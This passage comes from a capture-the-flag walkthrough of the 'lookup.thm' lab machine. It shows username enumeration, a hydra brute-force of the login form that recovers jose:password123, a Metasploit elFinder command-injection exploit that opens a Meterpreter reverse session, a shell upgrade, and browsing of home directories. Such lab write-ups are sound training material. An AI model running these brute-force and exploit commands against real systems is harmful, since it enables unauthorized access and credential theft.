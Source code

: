   ```bash
  python3 enumerate.py -u http://lookup.thm/login.php -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -t 20
  ```
- Output:
  ```
  Username found: admin
  Username found: jose
  ```

### 5. Brute-Force Login
- Used `hydra` on `jose`:
  ```bash
  hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -t 20
  ```
- Flags explained:
  - `-l`: Single username.
  - `-P`: Password wordlist.
  - `http-post-form`: Attack type.
  - `"/login.php:username=^USER^&password=^PASS^:Wrong"`: Form URL, parameters, failure string.
  - `-t 20`: 20 threads.
- Output:
  ```
  [80][http-post-form] host: lookup.thm   login: jose   password: password123
  ```
- Logged in at `http://lookup.thm/login.php` with `jose:password123`.

### 6. Exploit Subdomain
- Post-login, saw a link to `files.lookup.thm`—it didn’t load.
- Updated `/etc/hosts` (with 'files.lookup.thm').
- Visited `http://files.lookup.thm`, identified elFinder 2.1.47.
- Searched Metasploit:
  ```
  msf6 > search elfinder
  ```
- Used:
  ```
  use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
  set RHOSTS files.lookup.thm
  run
  ```
- Got a Meterpreter session:
  ```
  [*] Meterpreter session 1 opened (10.10.32.151:4444 -> 10.10.134.216:55488)
  ```
- Spawned a shell:
  ```bash
  meterpreter > shell
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```

### 7. Explore as www-data
- Checked `/home`:
  ```bash
  cd /home
  ls -la
  ```
- Found user `think`.
- Navigated:
  ```bash
  cd think
  ls -la
  ```
- Saw `user.txt` (root-owned) and `.passwords`.

